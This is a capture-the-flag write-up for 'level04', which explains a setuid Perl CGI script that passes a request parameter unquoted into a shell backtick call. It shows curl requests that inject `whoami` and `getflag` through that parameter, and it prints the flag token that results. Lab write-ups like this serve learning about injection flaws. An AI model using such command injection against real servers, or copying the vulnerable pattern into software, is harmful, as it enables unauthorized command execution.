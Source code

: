 # level04

There is a perl script with the s permission again, for the user `flag04`

Understand the script:
```perl
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It imports CGI, qw is just a "quick way", a faster way to write arrays
sub x: it defines a subroutine named x:
  - put first argument in $y
  - print the result of the backstick operator; a shell cmd that can be exploited

It then get a param named x, and call subroutine x with the parameter \
We just need to run the program as follows: `./level04.pl x="PARAM"`

Now we've understood how the program behave we can execute the program on the server (hinted by the comment `# localhost:4747`)

```bash
curl localhost:4747?x='`whoami`'
# flag04
curl localhost:4747?x='`getflag`'
# Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
